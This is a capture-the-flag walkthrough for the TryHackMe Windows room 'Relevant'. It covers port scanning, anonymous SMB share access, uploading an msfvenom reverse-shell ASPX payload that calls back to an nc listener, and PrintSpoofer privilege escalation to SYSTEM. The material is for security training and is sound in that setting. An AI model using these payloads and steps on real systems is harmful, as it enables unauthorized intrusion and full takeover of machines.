 ```yaml
---
title: Relevant Tryhackme Writeup
published: true
---
```


Today I bring you the writeup of [Relevant](https://tryhackme.com/room/relevant), a tryhackme machine focused on windows exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP -Pn
```

With -p- we indicate that we want it to look at all ports, -Pn is not to make ping requests since it is a windows and blocks them and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p80,135,139,445,3389,49663,49667,49669 --min-rate 5000 IP -Pn
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/2.png)

Let's enumerate the smb to see if it has any folders accessible to us.

```shell
smbclient -L IP -N
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/3.png)

We see a directory called nt4wrksv that we can access, let's see what is inside.

```shell
smbclient //IP/nt4wrksv -N
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/4.png)

We see a txt file that if we get it with get passwords.txt and read it, we see that it is in base64, when we decrypt it we see that they are two users and two passwords, after several tests I did not find anything to do with them so we will ignore them for now at least.

Let's try to see if from any of the http, we can access the passwords.txt and thus try to do a reverse through the web by uploading a file to the smb.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/5.png)

Indeed, we can; I found this [blog](https://www.rapid7.com/blog/post/2009/12/28/exploiting-microsoft-iis-with-metasploit/) where he teaches us how to exploit a microsoft server with metasploit, let's do it.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/6.png)

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f aspx -o rev.aspx
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/7.png)

Now let's upload the file.

```shell
smbclient //IP/nt4wrksv -N
put rev.aspx
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/8.png)

We have to go to the web and put in the url the file we just uploaded.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/9.png)

And after waiting a while we are in! now, to climb.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/10.png)

Let's see the permissions of the user we have with ```whoami /priv```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/11.png)

We see that it has the "SetImpersonatePrivilege" permission enabled, googling we see [this](https://github.com/dievus/printspoofer) to be able to escalate privileges thanks to this.

Let's download the exe from the github I found earlier and upload it via smb.

```shell
git clone https://github.com/dievus/printspoofer.git
cd printspoofer
smbclient //10.10.142.94/nt4wrksv -N
put PrintSpoofer.exe
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/12.png)

On the windows machine we have to go to where the SMB uploads are stored and run the exe.

```shell
cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer.exe -i -c cmd
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Relevant_writeup/13.png)

And that's it! rooted machine.

